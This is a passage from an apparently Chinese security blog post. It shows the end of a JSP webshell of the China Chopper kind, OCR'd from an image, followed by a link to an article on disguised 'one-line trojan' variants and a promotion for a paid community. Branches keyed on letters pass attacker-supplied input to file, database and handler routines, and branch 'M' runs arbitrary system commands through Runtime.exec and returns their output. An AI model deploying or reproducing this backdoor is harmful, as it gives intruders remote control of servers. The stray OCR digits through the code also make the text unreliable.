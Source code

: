 ```
            bw.write(z2);      23
            bw.close();      23
            sb.append("1");      23
        } else if (Z.equals("E")) {      23
            EE(z1);      24
            sb.append("1");      24
        } else if (Z.equals("F")) {      24
            FF(z1, response);      24
        } else if (Z.equals("G")) {      24
            GG(z1, z2);      24
            sb.append("1");      24
        } else if (Z.equals("H")) {      24
            HH(z1, z2);      24
            sb.append("1");      24
        } else if (Z.equals("I")) {      25
            II(z1, z2);      25
            sb.append("1");      25
        } else if (Z.equals("J")) {      25
            JJ(z1);      25
            sb.append("1");      25
        } else if (Z.equals("K")) {      25
            KK(z1, z2);      25
            sb.append("1");      25
        } else if (Z.equals("L")) {      25
            LL(z1, z2);      26
            sb.append("1");      26
        } else if (Z.equals("M")) {      26
            String[] c = { z1.substring(2), z1.substring(0, 2), z2 };      26
            Process p = Runtime.getRuntime().exec(c);      26
            MM(p.getInputStream(), sb);      26
            MM(p.getErrorStream(), sb);      26
        } else if (Z.equals("N")) {      26
            NN(z1, sb);      26
        } else if (Z.equals("O")) {      26
            OO(z1, sb);      27
        } else if (Z.equals("P")) {      27
            PP(z1, sb);      27
        } else if (Z.equals("Q")) {      27
            QQ(cs, z1, z2, sb);      27
        }      27
    } catch (Exception e) {      27
        sb.append("ERROR" + ":// " + e.toString());      27
    }      27
    sb.append("|" + "<-");      27
    out.print(sb.toString());      28
%>
```




更多的关于一句话木马的变形，传送门——> [中国菜刀之写一句话木马变形](https://fly8wo.github.io/2018/08/17/%E4%B8%AD%E5%9B%BD%E8%8F%9C%E5%88%80%E4%B9%8B%E5%86%99%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%E5%8F%98%E5%BD%A2/ "中国菜刀之写一句话木马变形")



 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")



![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)